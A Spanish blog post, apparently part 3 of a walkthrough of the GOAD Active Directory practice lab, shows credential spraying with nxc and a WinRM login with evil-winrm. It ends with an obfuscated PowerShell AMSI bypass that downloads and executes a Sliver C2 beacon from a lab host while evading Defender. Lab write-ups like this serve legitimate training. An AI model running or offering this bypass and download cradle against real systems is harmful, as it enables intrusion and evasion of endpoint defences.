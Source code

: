```yaml
---
layout: single
title: Game of Active Directory - Parte 3
excerpt: "En la segunda parte conseguimos acceder a la máquina castelblack para después elevar privilegios gracias al privilegio seimpersonateprivilege. En esta tercera parte accederemos al controlador de dominio de north.sevenkingdoms.local."
date: 2024-04-11
classes: wide
header:
  teaser: /assets/images/Goad/logo_GOAD.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```


![](/assets/images/Goad/logo_GOAD.jpg)

En la segunda parte conseguimos acceder a la máquina castelblack para después elevar privilegios gracias al privilegio seimpersonateprivilege. En esta tercera parte accederemos al controlador de dominio de north.sevenkingdoms.local.

En la segunda parte conseguimos varias credenciales, en concreto nos interesa la que obtuvimos con el responder `robb.stark:sexywolfy`.

Vamos a probar esas credenciales en todas las máquinas para ver en cuales nos podemos autenticar.

```bash
nxc smb 192.168.56.10-23 -u robb.stark -p sexywolfy
```

![](/assets/images/Goad/robb.jpg)

Y vemos que tenemos permisos de administrador en el controlador de dominio winterfell. Y además podemos iniciar sesión a través de winrm.

```bash
evil-winrm -u robb.stark -p sexywolfy -i 192.168.56.11
```

![](/assets/images/Goad/robb2.jpg)


Ya que tenemos privilegios de administrador vamos a obtener un beacon de sliver para tener las sesiones de las dos máquinas en el C2.

Desde la sesión que tenemos con evil-winrm ejecutamos el primer comando que utilizamos en la webshell y obtenemos el beacon sin que el defender se entere.

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344);IEX (new-object system.net.webclient).downloadstring('http://192.168.56.1:9000/sc.txt')
```


![](/assets/images/Goad/robb3.jpg)

![](/assets/images/Goad/robb4.jpg)

